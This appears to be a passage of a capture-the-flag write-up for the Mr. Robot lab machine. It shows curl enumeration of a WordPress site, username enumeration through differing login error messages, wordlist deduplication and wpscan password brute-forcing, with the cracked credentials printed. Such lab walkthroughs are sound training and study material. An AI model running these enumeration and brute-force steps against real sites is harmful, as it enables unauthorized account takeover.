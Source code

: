 # Find WP version 
curl 192.168.1.31/readme | grep -i version<br>
Version 4.3.10<br>
<p>If you are updating from version 2.7 or higher, you can use the automatic updater:</p>
	<li><a href="http://php.net/">PHP</a> version <strong>5.2.4</strong> or higher.</li>
	<li><a href="http://www.mysql.com/">MySQL</a> version <strong>5.0</strong> or higher.</li>
	<li><a href="http://php.net/">PHP</a> version <strong>5.4</strong> or higher.</li>
	<li><a href="http://www.mysql.com/">MySQL</a> version <strong>5.5</strong> or higher.</li>
<p>WordPress is free software, and is released under the terms of the <abbr title="GNU General Public License">GPL</abbr> version 2 or (at your option) any later version. See <a href="license.txt">license.txt</a>.</p>

# What about phpmyadmin
root@kali:~# curl 192.168.1.31/phpmyadmin<br>
For security reasons, this URL is only accessible using localhost (127.0.0.1) as the hostname.root@kali<br>
=> Nice<br>

# Even though fsocity.dic is big... 
I went to http://192.168.1.31/wp-login.php and tried the first entries for the dic. You get a different message when user exists or not <br>
=> Login System should never return to the user if the username exists or not, same goes for resetting password system should never that the adress the user entered exist or not. <br>
On 4.3.10 : <br>
IF USER EXIST => ERROR: The password you entered for the username elliot is incorrect. Lost your password?<br>
IF NOT => ERROR: Invalid username. Lost your password?<br>

# What about WP password (round1)
Let's use WPSCAN : <br>
wpscan --url http://192.168.1.31 --wordlist /root/Desktop/fsocity.dic --username Elliot<br>
Since it was taking forever and I noticed some dupplicate while fuzzing with the same dict I decided to reduce the file.<br>

# What about WP password (round2)
root@kali:~# sort fsocity.dic | uniq  > test.txt<br>
root@kali:~# wc -l fsocity.dic <br>
858160 fsocity.dic<br>
root@kali:~# wc -l test.txt <br>
11451 test.txt<br>
=> You should always sort dict before using them. Do not trust what you've been give. <br>

Done let's force again : <br>
wpscan --url http://192.168.1.31 --wordlist /root/Desktop/test.txt --username Elliot<br>
[+] Starting the password brute forcer<br>
  [+] [SUCCESS] Login : Elliot Password : ER28-0652      <br>                                                                                                
  Brute Forcing 'Elliot' Time: 00:01:17 ====================================  (5628 / 11452) 49.14%  ETA: 00:01:20<br>
  +----+--------+------+-----------+<br>
  | Id | Login  | Name | Password  |<br>
  +----+--------+------+-----------+<br>
  |    | Elliot |      | ER28-0652 |<br>
  +----+--------+------+-----------+<br>
